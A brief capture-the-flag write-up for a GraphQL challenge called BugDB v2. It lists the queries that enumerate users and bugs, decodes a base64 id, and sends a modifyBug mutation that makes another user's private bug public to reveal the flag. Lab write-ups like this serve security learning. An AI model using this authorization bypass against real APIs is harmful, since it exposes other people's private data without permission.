




# BugDB v2 - FLAG0

## 0x00 Overview

Pretty much same as [BugDB v1][1]. There is only a tiny difference on mutate the data.

## 0x01 Take a Tour

### allUsers

Users no longer have their bugs.

```graphql
query{
  allUsers {
    edges {
      node {
        id
        username
      }
    }
  }
}
```



### allBugs

There is only one bug in array. And the one shows NOT PRIVATE status.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```



And the bug id can be [decoded][2] 

```
base64decode(QnVnczox) = Bugs:1
```

### mutation

Try modify Bugs:2

```graphql
mutation{
  modifyBug(id:2, private:false) {
    ok
  }
}
```



## 0x02 FLAG

Go check back allBugs again.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```

Get the FLAG



[1]: ../../bugdb_v1/flag0
[2]: https://www.base64decode.org/